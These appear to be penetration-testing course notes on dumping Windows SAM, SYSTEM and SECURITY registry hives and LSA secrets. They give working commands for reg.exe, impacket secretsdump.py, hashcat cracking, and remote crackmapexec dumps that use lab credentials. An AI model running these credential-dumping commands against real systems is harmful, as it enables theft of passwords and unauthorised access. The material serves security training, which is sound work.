 Related articles: 
Tags: #OS

---

SAM stands for Security Account Manager and is the local database that stores the session credentials. We can dump the hives that hold the data and crack them offline.

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |
We can create backups of these hives using the `reg.exe` utility.

```powershell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

Other ways of dumping these are through the secretsdump.py script or through crackmapexec.

# secretsdump.py

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Next, crack the hashes with hashcat:
```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

# Remote Dumping & LSA Secrets Considerations

With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

#### Dumping LSA Secrets Remotely

``` bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

#### Dumping SAM Remotely

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

